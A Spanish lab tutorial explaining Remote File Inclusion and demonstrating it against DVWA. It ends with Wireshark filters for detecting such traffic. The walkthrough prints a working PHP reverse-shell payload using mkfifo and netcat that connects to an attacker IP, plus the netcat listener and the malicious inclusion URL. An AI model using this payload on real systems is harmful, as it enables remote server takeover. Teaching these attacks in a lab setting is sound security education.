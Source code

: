La Inclusión de Archivos Remotos (RFI) es una versión de la Inclusión de Archivos Locales (LFI) que extiende su alcance. En RFI, un atacante logra hacer que la aplicación web, que se está ejecutando en el servidor, establezca una conexión con un servidor externo para cargar e incluir un archivo de este, en lugar de usar un archivo que ya esté en el propio servidor como sucede con LFI.

En cuanto a las dificultades asociadas con el envenenamiento de registros (log poisoning) al explotar LFI:
- La cuenta bajo la cual se ejecuta la aplicación web en el servidor necesita tener los derechos suficientes para leer los archivos de registro (logs) que el atacante desea manipular.
- Es necesario descubrir una forma de insertar código dañino en esos archivos de registro locales, lo cual podría lograrse mediante acciones como enviar ciertas cabeceras HTTP o generar errores intencionadamente.

Si fuera posible incluir archivos alojados en un servidor controlado por el atacante o en otra ubicación bajo su control, estas limitaciones se eliminarían, lo que haría mucho más sencilla la ejecución de código malicioso.

La vulnerabilidad de RFI surge principalmente por dos razones:
- La falta de una limpieza adecuada de las entradas proporcionadas por el usuario, lo que permite la introducción de URLs externas.
- Una configuración insegura o por defecto tanto en el servidor web como en las aplicaciones, que admite este tipo de inclusión de archivos. Un ejemplo claro de esto es tener habilitada la opción allow_url_include en la configuración de PHP, que permite la inclusión de archivos de fuentes externas.

Lenguajes susceptibles a estos ataques: PHP, ASP, JSP, Python...

Con un ataque RFI se puede conseguir:
- Defacement de Sitios Web: El "defacement" se refiere a la alteración visual de un sitio web, donde el contenido original se reemplaza con contenido creado por el atacante. Esto suele hacerse por motivos de vandalismo, para promover una agenda política o social, o simplemente para demostrar la vulnerabilidad del sitio. Con un ataque RFI, un atacante puede incluir un archivo remoto que contenga HTML, JavaScript u otro código que cambie la apariencia del sitio web o muestre un mensaje específico del atacante. Dado que el archivo está siendo incluido y ejecutado por el servidor web como parte de la página web, el contenido del archivo remoto se renderizará en el navegador del usuario, efectivamente cambiando la apariencia del sitio.

- Ejecución Remota de Comandos: Aún más peligroso es la capacidad de ejecutar comandos de forma remota en el servidor web a través de un ataque RFI. Esto puede lograrse si el atacante logra incluir un script PHP (o cualquier otro lenguaje de servidor que se esté ejecutando) desde un servidor remoto que el servidor web víctima ejecutará como suyo. Este script puede contener código que ejecute comandos en el servidor, lo que podría permitir al atacante tomar el control total del servidor web, acceder a bases de datos sensibles, modificar archivos del sistema, instalar malware, crear backdoors para acceso futuro, entre otras acciones maliciosas. La ejecución remota de comandos abre la puerta a una amplia gama de actividades perjudiciales que pueden comprometer la seguridad y la funcionalidad del servidor y de los datos alojados en él.


### En la máquina atacante
Para obtner la shell reversa, usaremos netcat tanto en el atacante (kali) como en la víctima (ubuntu):
- En la máquina atacante (Kali), iniciamos Netcat en modo escucha especificando un puerto:
  ```
  nc -lnvp 9000
  ```
  ![](capturas/remote-file-inclusion.png)


- Creamos un documento que contendrá el fichero que deberá ejecutar la máquina víctima para lanzar la shell reversa:
  ```
  mkdir /tmp/files
  cd /tmp/files
  nano reverse.txt
  
  <?php
        passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 192.168.1.103 9000 > /tmp/f");
  ?>  
  ```
  La función passthru ejecutará el comando que recibe como argumento. Este comando crea un canal de comunicación bidireccional entre la máquina víctima y la atacante, usando un archivo FIFO en /tmp/f. Primero, elimina /tmp/f si existe y luego crea un FIFO con mkfifo. Utiliza cat para leer este FIFO y pasa la salida a sh -i, creando una shell interactiva que redirige tanto la entrada estándar como la salida estándar y el error estándar a través de Netcat hacia la dirección IP 192.168.1.103 en el puerto 9000. Finalmente, la salida de Netcat se redirige de nuevo al FIFO, completando el circuito para la comunicación bidireccional. Los datos circulan a través de la conexión con la máquina atacante en la ip 192.168.1.103 y el puerto 9000, y la máquina vulnerable por medio del fichero FIFO.

- En el atacante arrancamos un servidor web:
  ```
  python3 -m http.server 80
  ```
  ![](capturas/remote-file-inclusion-2.png)
  ![](capturas/remote-file-inclusion-3.png)


### En la máquina víctima
Utilizamos la URL en la que conseguimos hacer LFI:
```
/DVWA/vulnerabilities/fi/?page=http://192.168.1.103/reverse.txt
```
![](capturas/remote-file-inclusion-4.png)

### En la máquina atacante
Vemos que se ha conseguido finalizar la shell reversa:
![](capturas/remote-file-inclusion-5.png)


## Viendo el ataque con Wireshark
![](capturas/remote-file-inclusion-6.png)
![](capturas/remote-file-inclusion-7.png)
![](capturas/remote-file-inclusion-8.png)

Otro detalle de otra secuencia:

![](capturas/remote-file-inclusion-9.png)


**Filtros wireshark para descubrir RFI:**
```
http || tcp.port == 80 || tcp.port == 443
(http.request or tls.handshake.type eq 1) and !(ssdp)
http.request.method == "POST"
http.request.method == "GET"
```
